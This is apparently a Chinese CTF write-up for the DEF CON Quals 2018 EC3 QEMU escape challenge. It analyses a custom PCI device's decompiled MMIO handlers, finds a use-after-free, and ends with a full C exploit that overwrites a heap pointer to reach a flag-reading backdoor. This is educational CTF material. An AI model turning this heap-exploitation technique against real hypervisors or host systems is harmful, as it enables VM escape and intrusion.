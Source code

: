 ```yaml
---
title: DefconQuals-2018-EC3
date: 2020-02-24 17:20:46
tags: PWN
---
```


# 初步分析



qemu逃逸,拿到题目查看run.sh

```
mozhucy@ubuntu:~/Desktop/ctf/defconec3/EC3$ cat run.sh
#!/bin/sh
./qemu-system-x86_64 -initrd ./initramfs-busybox-x86_64.cpio.gz -nographic -kernel ./vmlinuz-4.4.0-119-generic -append "priority=low console=ttyS0" -device ooo
```

发现这个ooo设备,拖入ida分析,居然删了符号.记得在classinit和realize里面会出现一些字符串,里面就有设备的名字,所以搜索一下字符串,看到了ooo

![string](DefconQuals-2018-EC3\string.png)

开了个有符号的,看了一下偏移

```
pwndbg> p/d &(*(PCIDeviceClass *)0).vendor_id
$5 = 232
```

找到了两个id,确认了设备,查看端口,发现地址是从0xfb000000大小为0x1000000的mmio空间

```
/sys/devices/pci0000:00/0000:00:04.0 # cat resource
0x00000000fb000000 0x00000000fbffffff 0x0000000000040200
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
```

```C
unsigned __int64 __fastcall pci_ooo_realize(__int64 a1, __int64 a2)
{
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  sub_6E5C20(*(a1 + 120), 1LL);
  if ( !msi_init(a1, 0LL, 1LL, 1LL, 0LL, a2) )
  {
    sub_6E5B0A(a1 + 2680, 1u, sub_6E5F06, a1);
    qemu_mutex_init((a1 + 2520));
    qemu_cond_init((a1 + 2568));
    qemu_thread_create((a1 + 2512), &off_B6339D, sub_6E631A, a1, 0);
    memory_region_init_io(a1 + 2272, a1, off_B63300, a1, "ooo-mmio", 0x1000000LL);
    pci_register_bar(a1, 0LL, 0LL, a1 + 2272);
  }
  return __readfsqword(0x28u) ^ v3;
}
```

off_B63300其实就是MemoryRegionOps结构体,很明显6E613C为mmio_read,6E61F4为mmio_write

恢复完了全部后,发现这个题非常的暴力.

```
void __fastcall ooo_mmio_write(void *a1, __int64 addr, __int64 val, unsigned int size)
{
  unsigned int v4; // eax
  char n[12]; // [rsp+4h] [rbp-3Ch]
  __int64 v6; // [rsp+10h] [rbp-30h]
  void *v7; // [rsp+18h] [rbp-28h]
  __int16 v8; // [rsp+22h] [rbp-1Eh]
  int i; // [rsp+24h] [rbp-1Ch]
  unsigned int v10; // [rsp+28h] [rbp-18h]
  unsigned int v11; // [rsp+2Ch] [rbp-14h]
  unsigned int v12; // [rsp+34h] [rbp-Ch]
  void *v13; // [rsp+38h] [rbp-8h]

  v7 = a1;
  v6 = addr;
  *(_QWORD *)&n[4] = val;
  v13 = a1;
  v10 = ((unsigned int)addr & 0xF00000) >> 20;
  v4 = ((unsigned int)addr & 0xF00000) >> 20;
  switch ( v4 )
  {
    case 1u:
      free(chunk_list[((unsigned int)v6 & 0xF0000) >> 16]);// del
      break;
    case 2u:
      v12 = ((unsigned int)v6 & 0xF0000) >> 16;
      v8 = v6;
      memcpy((char *)chunk_list[v12] + (signed __int16)v6, &n[4], size);// write
      break;
    case 0u:                                    // new
      v11 = ((unsigned int)v6 & 0xF0000) >> 16;
      if ( v11 == 15 )
      {
        for ( i = 0; i <= 14; ++i )
          chunk_list[i] = malloc(8LL * *(_QWORD *)&n[4]);
      }
      else
      {
        chunk_list[v11] = malloc(8LL * *(_QWORD *)&n[4]);
      }
      break;
  }
}
__int64 __fastcall ooo_mmio_read(void *a1, int addr, unsigned int size)
{
  unsigned int index; // [rsp+34h] [rbp-1Ch]
  __int64 dest; // [rsp+38h] [rbp-18h]
  void *v6; // [rsp+40h] [rbp-10h]
  unsigned __int64 v7; // [rsp+48h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v6 = a1;
  dest = 0x42069LL;
  index = (addr & 0xF0000u) >> 16;
  if ( (addr & 0xF00000u) >> 20 != 15 && chunk_list[index] )
    memcpy(&dest, (char *)chunk_list[index] + (signed __int16)addr, size);// read
  return dest;
}
```



这就是一个套了个qemu的堆题(禁止套娃),不过感觉因为qemu的原因,所以堆排布会非常的混乱,所以可能需要多花点功夫的调试,不过这个漏洞很明显,存在一个UAF,配合ptmalloc打就行了.



# 利用

功能:ooo_mmio_read

addr参数组成:

- addr & 0xf00000处是选择子
- addr & 0xf0000处是要操作的index
- addr&0xffff是要读取的堆块中的位置

调用:mmio_read((case << 20)|(index<<16)|offset)

功能:ooo_mmio_write

addr参数组成:

- addr & 0xf00000处是选择子
- addr & 0xf0000处是要操作的index
- addr&0xffff是要读取的堆块中的位置

调用:mmio_write((case << 20)|(index<<16)|offset,val)

case为0时为new,val为malloc的size

case为1时为del,val没什么用

case为2时为write,val是要写入的值,可以和上面的mmio_read对应addr参数的功能

6E65F9还有个后门system("cat ./flag")

EXP:

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdint.h>
#include <assert.h>
#include <string.h>
#include <time.h>

uint64_t base = 0;

int mmio_read(uint64_t addr)
{
	return *((uint32_t *)(base + addr));
}

void mmio_write(uint64_t  addr,uint32_t value)
{
	 *((uint32_t *)(base + addr)) = value;
}

void new(int index,int size)
{
    mmio_write((0 << 20)|(index << 16),size);
}

void del(int index)
{
    mmio_write((1 << 20)|(index << 16),0);
}

void w(int index,int offset,int val)
{
    mmio_write((2 << 20)|(index << 16)|offset,val);
}

uint32_t r(int index,int offset,int val)
{
    return mmio_read((0 << 20)|(index << 16)|offset);
}

int main()
{
	puts("[*]start pwn");
	int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
	assert(fd != -1);
	
	base = (uint64_t)mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
	assert(base != -1);
    
    new(15,0x70);
    del(0);
    w(0,0,0x11301A0);
    new(2,0x70);
    new(2,0x70);
    w(2,0,0x6E65F9);
    w(2,1,0);
    
    return 0;
}
```

